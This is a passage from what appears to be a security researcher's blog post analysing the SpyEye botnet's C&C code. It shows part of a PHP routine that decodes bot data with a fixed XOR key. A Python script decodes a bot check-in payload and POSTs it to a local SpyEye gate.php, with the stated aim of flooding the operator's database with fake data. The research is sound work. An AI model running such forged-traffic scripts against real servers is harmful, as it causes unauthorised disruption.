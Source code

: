                 $num = ord($content[$i]);
                if( $num != 219) $res .= chr($num^219);
        }
        return $res;
}
</pre>
</div>
</div>
</div>
Fixed XOR key, again, well done ...
<br />
<div>
This means that it is easy to create a script, which can communicate with the SpyEye server. For example this can be used to fill in the SpyEye database with crap data.</div>
<div>
<br /></div>
<div>
<br /></div>
<pre class="prettyprint  linenums lang-python">import binascii
import requests
import httplib, urllib

def xor_str(a, b):
    i = 0
    xorred = ''
    for i in range(len(a)):
        xorred += chr(ord(a[i])^b)
    return xorred
            
b64_data= "vK6yv+bt9er17O3r6vqPnoiPjZb2i5j6muvo6+rjmJ/9rb6p5urr6O/j/bK+5uP16/Xs7evq9ers7urv/bSo5u316vXs7evq/a6v5pq/trK1/bi4qbjm453j6uPv7Or9tr/u5um+uuvpve3p7eq/4+vsveLi7Lnqvrjr6ujs7rjt7rns/au3vOa5sre3srW8s7q2tr6p4Lm3tLiw4LmuvKm+q7Spr+C4uPu8qbq5ub6p4Li4vKm6ubm+qeC4qb6/sq+8qbq54LiuqK+0tri0tbW+uK+0qeC/v7So4L+1qLqrsuC+trqyt7ypurm5vqngvb24vqmvvKm6ubm+qeC9/aivuq/mtLW3srW+"
payload =xor_str (binascii.a2b_base64(b64_data), 219) 
print ("the decrypted payload is: " + payload)
params = (binascii.b2a_base64(xor_str(payload,219)))
payload = {'data': params}
r = requests.post("http://spyeye.localhost/spyeye/_cg/gate.php", data=payload)
</pre>
<div>
<h3>
Morale of the story?</h3>
<div>
<br /></div>
Criminals produce the same shitty code as the rest of the world, and thanks to this, some of the malware operators get caught and are behind bars now. And the law is behind the reality, as always.</div>
<br /></div>
